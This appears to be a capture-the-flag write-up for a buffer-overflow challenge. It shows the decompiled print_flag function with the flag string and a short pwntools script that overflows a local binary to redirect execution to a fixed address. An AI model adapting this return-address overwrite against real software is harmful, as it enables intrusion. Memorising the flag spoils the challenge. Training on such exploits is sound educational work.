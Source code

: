Reverse with IDA Pro or Ghidra, decompile `print_flag`

```c
int print_flag()
{
  return printf("%s", "ACECTF{buff3r_0v3rfl3w}");
}
```

or

```py
from pwn import *

binary = './exploit-me'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)

r.sendline(flat([
    cyclic(64),
    cyclic(8),
    p64(0x401156)
]))

r.interactive()
```